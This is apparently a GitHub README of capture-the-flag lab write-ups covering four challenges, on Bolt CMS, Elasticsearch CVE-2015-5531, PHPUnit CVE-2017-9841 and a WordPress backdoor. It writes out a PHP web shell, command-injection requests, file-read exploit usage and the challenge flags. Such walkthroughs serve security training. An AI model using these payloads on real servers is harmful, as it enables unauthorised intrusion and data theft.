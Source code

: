# cyber-sec-labs
# bolt
Let's try: View Page Source, pay attantion to p This website is... /p, add /bolt to url and guess the user and pass.

Once you are in you need to go to file management to see if you can upload some malicious files. Let’s try to create and upload vulnerable rce.html file

click file and start editing <?php echo system($_GET['cmd']);?>
Go to options and rename the rce.html file to rce.php

Click on rce.php
Add cmd=id
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/df5e1a0b-ae6a-426a-b5eb-357c129ce98e)
cmd=ls-l
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/a63d43e0-1f44-4230-8e83-630f0cfdc486)
cat /flag.txt
CTF{b12e3b34c581d4f3c66c00cc7f8dabec8838dab0acf26c2cfbe2f7d291326f75}
# elastic
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/219165d6-3a23-41a4-8efa-ff035e7b89b1)
Hints:
Hint 1:  Elasticsearch < 1.6.1 Arbitrary file read CVE (version)

The main web page exposure the sensitive information about the version of Elasticsearch
application. 

The main of this scenario is to identify the vulnerability like in the real scenario.

Try to find an exploit

Searchable archive from The Exploit Database. https://www.exploit-db.com/

Search for remote oracle exploits for windows:
Installation:

$sudo apt install exploitdb

$sudo apt install libxml2-utils

Dependencies: libxml2-utils

$searchsploit elasticsearch

The vulnerability present in the current scenario, offers more details about 
CVE-2015-5531- Arbitrary file Vulnerability. 

Exploit can be found here:

https://github.com/nixawk/labs/blob/master/CVE-2015-5531/exploit.py

$ python3 exploit.py URL /etc/passwd 
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/a2ea58dc-fabc-4f50-a8ee-0ba19366d4c8)
CTF{265b92ed0091f139fdcd438196426f205fed9b14bce765bafd8344b1d96183e5}
# php unit
A website is provided as a reference to my unit is feeling a little off. So first we can try to understand php unit. For example, we can use the automatic tool Dirsearch, which brute force searches for vulnerabilities in directories.

$ dirsearch -u URL

From these addresses we can select the ones that are interesting to us like /composer.json, Here we can find version of php-unit and /eval-stding.php
Vulnerable path. Let’s check: /composer.json where we can understand that our php uni is vulnerable (CVE-2017-9841).

Now exploit the vulnerable path using Burpsuite: <?php system('cat /flag.txt')?>
CTF{8c7795c5332da1491741a61fe780006a619273444bfe54aff555e28f83e3b123}
# nodiff-backdoor
After performing some recon using *dirsearch* on the targeted web application, we can find a *backup.zip* archive.

$ dirsearch -u URL

Download the backup file from the following url: http://34.107.45.207:30148//backup.zip 
(take note that the IP address can change based on the functionality of the CyberEDU platform.) 

In this way, we obtain the source code of the application.

$ wget http://34.107.45.207:30148//backup.zip 

Copy backup.zip to the new folder and unzip it. 

Now is time to find some backdoor. Because application use PHP code we try to search from vulnerable function in PHP:
https://gist.github.com/mccabe615/b0907514d34b2de088c4996933ea1720

We can try search for all the vulnerable functions. After few tries observe we got the vulnerable function (shell_exec()) in the next path: “wp-content/themes/twentytwentytwo/functions.php”

$ grep –r “shell_exec(“

Next step is to execute the backdoor to access the server base on what we got. 
If we have the parameter welldone=knockknock, then execute parameter shazam=<injection>
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/5ed643c1-2038-4a23-ba9f-b3c823729699)
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/5fbc856c-6241-4c2a-a001-2a9c9174004b)
Now let’s get the flag in the source of the page:
http://34.107.45.207:30148/?welldone=knockknock&shazam=id

http://34.107.45.207:30148/?welldone=knockknock&shazam=cat flag.php
CTF{87702788126237df9c4a915fea9441345dc6b3a0272b214b2c31e50a8f89c4b1}
